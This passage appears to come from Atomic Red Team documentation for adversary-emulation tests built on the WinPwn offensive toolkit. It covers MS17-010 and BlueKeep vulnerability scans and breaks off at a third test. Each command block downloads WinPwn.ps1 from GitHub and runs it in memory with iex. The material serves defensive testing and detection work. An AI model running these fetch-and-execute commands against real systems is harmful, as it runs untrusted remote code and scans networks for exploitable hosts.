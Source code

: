 **Supported Platforms:** Windows


**auto_generated_guid:** 97585b04-5be2-40e9-8c31-82157b8af2d6






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
MS17-10 -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - bluekeep
Search for bluekeep vulnerable Windows Systems in the domain using bluekeep function of WinPwn. Can take many minutes to complete (~600 seconds in testing on a small domain).

**Supported Platforms:** Windows


**auto_generated_guid:** 1cca5640-32a9-46e6-b8e0-fabbe2384a73






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
bluekeep -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #8 - WinPwn - fruit
Search for potentially vulnerable web apps (low hanging fruits) using fruit function of WinPwn

**Supported Platforms:** Windows

